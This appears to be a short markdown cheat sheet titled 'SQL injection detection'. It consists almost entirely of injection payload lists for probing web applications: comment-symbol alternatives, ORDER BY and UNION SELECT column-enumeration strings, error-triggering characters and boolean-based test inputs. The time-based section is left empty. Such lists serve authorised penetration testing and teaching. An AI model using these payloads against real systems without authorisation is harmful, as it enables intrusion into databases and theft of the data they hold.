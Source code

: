 <h1>SQL injection detection</h1>

# IN BAND (Classic)

# UNION BASED


"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```
# Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+ ......................................
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
```
TİME BASED
```

```
Other Resources:
https://www.w3schools.com/sql/sql_comments.asp
